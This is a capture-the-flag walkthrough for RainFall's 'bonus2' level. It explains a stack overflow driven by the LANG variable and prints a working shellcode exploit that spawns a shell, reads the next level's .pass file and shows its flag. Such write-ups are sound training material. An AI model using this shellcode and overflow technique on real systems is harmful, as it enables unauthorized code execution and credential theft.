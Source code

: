 1. We do some trials and errors : we see that 2 arguments are needed, otherwise the program exit:
```
./bonus2 coucou hello
Hello coucou
```

2. First let's look at the state of the stack in greetuser :

![Stack](Ressources/StackStateBonus2.png)

3. So we enter 2 arguments to the program. The latter takes at most 40 bytes of our 1st arg and copies them in a buffer, and at most 32 bytes of our 2nd argument, copying it in the same buffer at 40 bytes from the start (so after argv[1])

4. WE can see that the program checks the `LANG` env variable. If `fi`, it sets a global variable to `0x1` and if `nl`, it sets it to `0x2` (cf `memcmp` calls on line <+173> and <+220> in main).

5. Then in `greetuser`, depending on the value of this global variable representing the language, it copies a greeting message (different length depending on the language) in a 72 bytes buffer, and then concatenate to it our buffer given as parameter, up to `\0` or/and 72 bytes maximum.

6. The exploit:
    - The vulnerability comes from the fact that our buffer can be 72 bytes long, and comes after a greeting message in a buffer which is itself 72 bytes long. So `length_of_greeting + 72 bytes buffer` => we can erase following addresses, $ebp value of main but above all **$eip of main**!
    - Hence we need a total size, greetings + buffer, of 72 + 4 bytes for erasing $ebp + 4bytes for erasing $eip with address of our shellcode = `80 bytes`
    - But if we don't have language set to **fi** or **nl**, the greeting message, to which our 72 bytes buffer is appended, is "Hello " which is 6 bytes long. It makes a buffer in greetuser of max 78 bytes, short of 2 bytes from what we need!
    - We can change the `LANG` env variable, and set it for exemple to `nl`, so that we have a greeting message of **13 bytes**, which make the total number of bytes `72 + 13 = 85` which is enough for our attack!

7. Defining the arguments for the exploit:
    - Number of bytes needed to arrive at $eip of main and erase it : **80 bytes**
    - Number of bytes at beginning of buffer for greeting message : **13 bytes**
    - Number of bytes left for our buffer : **80 - 13 = 67 bytes**
    - **40 bytes** will be the first argument, then, out of the **27 bytes** of the second argument, the last 4 are reserved for the address of our shellcode, so we have **23 bytes** remaining for the end of our shellcode.
    - Indeed, as gdb sets some env variables for its usage, the stack address values (level) do not correspond exactly to the stack values when executed outside of gdb. So it is best to start our buffer with as much `NOP (\x90)` instructions as we can, and make the next instruciton of main redirect inside this suite of NOP instructions. It will then skip these instructions up to our shellcode.
    - Length of our shellcode : **45 bytes**
    - argv[2] will then be : `last 23 bytes of shellcode + address inside NOP instructions`
    - argv[1] will be : `40-22=18 NOP instructions + 22 first shellcode bytes`
    - For determining the address in the NOP suite instructions, we `disas main` and see (Line<+71 to 78>) that the 40 bytes of argv[1] are stored at `esp+0x50`. Running `x/wx $esp+0x50` gives us the address of start of buffer **in gdb** (outide gdb, there will be a slight difference of a few bytes) : `0xbffff670`. That is more or less where our NOP suite of instructions will be starting. As we have 18 NOP instructions, we can randomly try with an address 12 bytes further down the stack : `0xbffff67c`


8. The attack and result (don't forget to change the `LANG` env variable!):

```
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ ./bonus2 $(python -c 'print("\x90"*18 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d")') $(python -c 'print("\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x1c\xf6\xff\xbf")')
Goedemiddag! �������������������^�1��F�F
                                        �
                                         ���V
                                              ̀1ۉ�@̀�����/bin/sh���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```